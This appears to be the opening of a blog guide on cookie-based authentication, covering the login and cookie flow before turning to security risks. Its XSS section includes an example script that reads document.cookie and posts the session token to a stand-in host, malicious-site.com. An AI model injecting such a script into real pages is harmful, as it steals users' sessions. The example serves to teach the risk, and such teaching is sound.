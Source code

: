 ```yaml
---
title: "🔥 Cookie Authentication: How It Works & What Are the Risks?"
description: A comprehensive guide to cookie-based authentication systems, how they work, security risks, and how to avoid them. Includes advanced penetration testing insights and real-world attack scenarios.
date: 2025-03-10
image: https://miro.medium.com/v2/resize:fit:1400/1*qzfEGrCI1hcp0xU1mNFWuA.png
minRead: 8
author:
  name: Mohamed Eslam
  avatar:
    src: /profile-img.jpg
    alt: Mohamed Eslam
tags: ["Authentication", "Security", "Cookies", "Web Development", "Penetration Testing", "Advanced Security"]
---
```


In any web application, you need an authentication system to determine which user is logged in. One of the most common approaches is for the server to use cookies to store the session ID or a JWT token. This cookie is then sent automatically with every subsequent request.

## 🔹 How Do Cookies Work?

### 1️⃣ Login Process
The user logs in and enters their email & password.

### 2️⃣ Data Verification
The server checks the credentials, and if correct, sets a cookie in the response.

### 3️⃣ Cookie Storage
The browser saves the cookie, and with every new request, the cookie is sent automatically to the server.

### 4️⃣ Authorization Check
The server checks the cookie and verifies that the user is allowed access.

## ⚠️ Security Risks

✋ But here's where things can go wrong if you don't secure your implementation!

### XSS (Cross-Site Scripting)

**The Problem:** Any malicious script can use `document.cookie` to easily steal the session token.

**Attack Example:**
```javascript
// Malicious code that could be executed on the page
<script>
  const token = document.cookie;
  fetch('https://malicious-site.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token })
  });
</script>
```
